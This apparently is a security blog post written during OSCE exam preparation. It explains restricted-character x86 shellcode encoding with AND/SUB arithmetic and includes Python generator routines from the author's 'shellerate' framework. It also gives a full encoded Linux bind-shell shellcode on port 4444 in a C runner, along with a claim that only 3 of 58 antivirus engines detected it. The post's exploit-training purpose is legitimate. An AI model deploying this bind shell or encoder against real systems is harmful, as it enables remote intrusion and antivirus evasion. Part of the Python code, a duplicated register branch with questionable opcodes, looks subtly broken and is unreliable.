 ```yaml
---
layout: post
title: "A tale of a restricted charset shellcode generation"
image: assets/images/ancient_writing.jpg
bootstrap: true
tags: [offensive security, shellcode, asm, x86, python, shellerate]
categories: [ ]
author: thesp0nge
---
```


During my OSCE exam preparation I had to deal with shellcode writing experience
where very few allower characters were available.

This brilliant talk by [@muts](https://twitter.com/muts), lead us to get in
touch with a new encoding technique. When you can't directly write words on the
stack, due to bad characters, you can eventually let a register to contained
the desired word and then push the register into the stack.

{% include youtube.html id="gHISpAZiAm0" %}

As you can see from the video taken at Defcon 16, the code exploits the fact
that after the shellcode it has been written into the stack, very close to the
encoded payload, the execution flow continues until the decoded shellcode it
has been found.

Boom.

All the magic happens in two different pieces.

## Init a register to 0

We can't use XOR to init a register to zero. So we use math here and some
AND property to apply to reset all bits in our register.

On
[shellerate](https://github.com/thesp0nge/shellerate/blob/master/shellerate/asm_x86.py)
I created a zero\_with\_and routine. The basic idea is to get a random 32 bits
value, calculating its NOT and then build the shellcode. When the register it
has been put in AND with those two values, it will be set to zero.

{%highlight python%}
  def zero_with_and(reg="eax", badchar=[]):

  while True:
    first_and = secrets.token_hex(4)
    n_b = bin(int(first_and, 16))
    n_b_2 = bit_not(int(n_b, 2), 32)
    if n_b_2 > 0:
      break

  second_and = format(n_b_2, 'x').zfill(8)

  logging.debug("First AND: %s" % first_and)
  logging.debug("Second AND: %s" % second_and)

  first_and_hex = strings.from_string_to_payload(strings.swap(first_and))
  second_and_hex = strings.from_string_to_payload(strings.swap(second_and))

  if reg == "eax":
    return "\\x25"+first_and_hex+"\\x25"+second_and_hex

  if reg == "ebx":
    return "\\xb1\\xe3"+first_and_hex+"\\xb1\\xe3"+second_and_hex
  if reg == "ebx":
    return "\\xb1\\xe3"+first_and_hex+"\\xb1\\xe3"+second_and_hex
  if reg == "ecx":
    return "\\xb1\\xe1"+first_and_hex+"\\xb1\\xe1"+second_and_hex
  if reg == "edx":
    return "\\xb1\\xe2"+first_and_hex+"\\xb1\\xe2"+second_and_hex
{%endhighlight%}

## Writing a word on the stack
We can't write a word on the stack because of a restricted alphabet. We will
get rid of this by calculating the
[two-complement](https://en.wikipedia.org/wiki/Two%27s_complement) of the word
we want to write and by finding 2 or 3 values that when added will result in
our word's complement.

Those values will be subtracted from EAX register, after it has been set to 0.
At the end, EAX will be set to the desired word and it can be pushed into the
stack.

{% highlight python %}
  def generate_add_eax_sum_shellcode(result):
  compl_two = int("FFFFFFFF", 16) - int(result, 16) + 1

  c = find_encoded_sequence(compl_two)
  c2_h = "0x{:08x}".format(compl_two)
  f = ["".join(["{:02x}".format(j) for j in list(i)]) for i in zip(*c[::-1])]
  f_sum = "0x{:08x}".format(sum([int(i, 16) for i in f]) % (2**32))

  if (c2_h != f_sum):
    logging.warning("can't find a good encoded sequence using 2 operands... trying with 3")
    c = find_encoded_sequence(compl_two, True)
    f = ["".join(["{:02x}".format(j) for j in list(i)]) for i in zip(*c[::-1])]
    f_sum = "0x{:08x}".format(sum([int(i, 16) for i in f]) % (2**32))

    if(c2_h != f_sum):
      logging.error("can't find a good encoded sequence. Please consider changing this shellcode sequence" + result)
      return ""

  logging.debug("obtaining 0x{0} with this ASM sequence".format(result))
  for i in ("554e4d4a", "2a313235"):
    logging.debug("AND EAX, 0x{0}".format(i))
  for j in f:
    logging.debug("SUB EAX, 0x{0}".format(j))
  logging.debug("PUSH EAX")

  shellcode = asm_x86.zero_with_and("eax")
  for i in f:
    shellcode += "\\x2d" + strings.from_string_to_payload(strings.swap(i))
  shellcode+="\\x50"

  return shellcode
{%endhighlight%}


The whole generate.py source code is available on this gist.

{% gist 8daae5ae9656779b75a479e72f2a4492 %}

## Put all the pieces together with shellerate

This can be a really good shellcode encoding mechanism. That's why I automated
this process and integrated it with
[shellerate](https://github.com/thesp0nge/shellerate/tree/master/shellerate).

I asked my framework to generate a bind shell shellcode for Linux operating
system. The shell will listen on port 4444 for incoming connections.

Than I padded my shellcode, since I want to operate on 4 bytes long words and I
splitted my shellcode into words.

I encoded all the words using a restricted allowed charset alphabet and I
eventually appended a jump ESP call in order to use my shellcode in a C helper
like this:

{% highlight C %}
#include<stdio.h>
#include<string.h>

unsigned char code[]="\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x54\x58\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x02\x01\x01\x01\x2d\x7e\x6e\x6e\x6e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x32\x01\x01\x36\x2d\x7e\x01\x75\x7e\x2d\x7e\x4c\x7e\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x31\x01\x01\x01\x2d\x6e\x4e\x01\x4f\x2d\x7e\x7e\x34\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x31\x31\x31\x01\x2d\x6d\x65\x60\x75\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x31\x31\x31\x52\x2d\x5c\x66\x66\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x32\x31\x52\x52\x2d\x7e\x66\x7e\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x09\x01\x50\x01\x2d\x7e\x05\x7e\x3e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x43\x01\x01\x38\x2d\x7e\x31\x7e\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x02\x01\x01\x01\x2d\x7e\x4f\x01\x01\x2d\x7e\x7e\x3d\x4d\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x50\x01\x01\x2d\x3c\x7e\x35\x4d\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x31\x35\x01\x01\x2d\x6f\x7e\x01\x01\x2d\x7e\x7e\x7c\x74\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x36\x01\x31\x01\x2d\x7e\x01\x6f\x01\x2d\x7e\x73\x7e\x73\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x02\x01\x01\x2d\x31\x7e\x31\x01\x2d\x62\x7e\x7c\x74\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x51\x01\x31\x01\x2d\x7e\x3e\x68\x46\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x02\x36\x01\x2d\x31\x7e\x7e\x01\x2d\x63\x7e\x7e\x7c\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x51\x01\x31\x01\x2d\x7e\x3e\x68\x46\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x01\x50\x01\x2d\x32\x7e\x7e\x35\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x31\x01\x01\x2d\x01\x6f\x01\x70\x2d\x75\x7e\x4a\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x01\x01\x01\x2d\x31\x31\x31\x7e\x2d\x72\x67\x63\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x31\x31\x31\x70\x2d\x7e\x68\x66\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x02\x01\x01\x2d\x31\x7e\x4f\x01\x2d\x65\x7e\x7e\x34\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x51\x01\x31\x01\x2d\x7e\x3e\x68\x46\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x01\x01\x01\x2d\x32\x7e\x75\x3b\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x01\x01\x02\x2d\x01\x7e\x01\x7e\x2d\x4b\x7e\x4c\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x01\x01\x02\x2d\x31\x01\x31\x7e\x2d\x68\x45\x66\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x01\x01\x01\x2d\x76\x3d\x75\x3c\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x51\x01\x01\x01\x2d\x7e\x3e\x75\x3b\x50\xff\xe4";

int main(int argc, char **argv)
{
	printf("Shellcode Length:  %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
{% endhighlight %}

Please note that I wrote my shellcode in a reverse order, from the last word to
the first. This way, since the stack is growing backwards, the ESP register
will point to the beginning of my decoded shellcode at the end of the process.

You can see the process in action here. As you can see, the shellcode is
working and a bind shellcode was listening on port 4444.


What about anti virus tool then? I submitted my a.out file to Virus Total and
only 3 engines out of 58 detected my encoded shellcode: [pretty sweet
result](https://www.virustotal.com/gui/file/5045aee367cc29a8fcf4889c0935f039ed76550cb0f1ba743f9d20b9d2f1dc99/detection).

## Off by one

Next steps will be:
* implementing this encoder into shellerate and release a new version of the
  framework (with a working shellerate binary script of course)
* make the AND process to use random values, so to increase shellcode entropy
* having fun with other register mathematical instructions so to encode with
  ADD, MUL, DIV, ...
